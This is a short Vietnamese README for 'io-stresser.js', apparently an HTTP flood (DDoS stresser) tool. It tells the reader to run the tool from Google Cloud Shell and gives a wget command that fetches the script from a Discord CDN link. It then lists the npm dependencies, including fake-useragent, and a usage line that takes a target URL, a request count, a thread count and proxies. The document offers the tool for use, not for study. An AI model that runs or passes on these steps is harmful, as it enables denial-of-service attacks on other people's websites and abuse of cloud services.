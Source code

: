 <p align="center">
IO-STRESSER.JS</p>


### Mỗi trường thực hiện
[Cloud Shell](https://shell.cloud.google.com/)

### Cài đặt
Tải xuống io-stresser
```
wget https://cdn.discordapp.com/attachments/912663711297183744/918331196008710254/io-stresser.js
```
Cài đặt npm nếu cần
Trên ubuntu 
```
apt install npm -y
```
Trên centos
```
yum install npm 
```
Cài đặt axios
```
npm install axios
```
Cài đặt request
```
npm install request
```
Cài đặt fake-useragent
```
npm install fake-useragent
```
Xem cách sử dụng io-stresser.js
```
node io-stresser.js
```
### Cách sử dụng
```
node io-stresser.js <URL> 10000 5 proxy
```
